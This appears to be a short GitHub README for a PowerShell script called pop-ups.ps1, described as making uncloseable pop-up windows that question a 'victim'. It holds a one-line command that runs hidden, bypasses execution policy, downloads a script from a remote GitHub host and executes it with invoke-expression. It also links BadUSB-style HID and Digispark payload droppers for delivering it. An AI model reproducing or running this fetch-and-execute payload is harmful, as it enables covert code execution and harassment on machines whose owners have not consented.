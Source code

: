 ![alt text](https://github.com/d0cax/d0cax/blob/main/Screenshot%202024-08-02%20001147.png)

## pop-ups.ps1

#### Description
A script to run a .exe file which asks multiple questions to victim without being able to be closed.

```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/d0cax/pop-ups/main/PopUps.ps1?dl=1; invoke-expression $pl
```
#### Usage 
Check out my payload dropper for HIDs or digisparks for this script.
* [Payload.txt](https://github.com/d0cax/pop-ups/main/payload.txt)
* [Payload.ino](https://github.com/d0cax/pop-ups/main/payload.ino)

#### Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)
* [I am Jakoby](https://github.com/I-Am-Jakoby/)
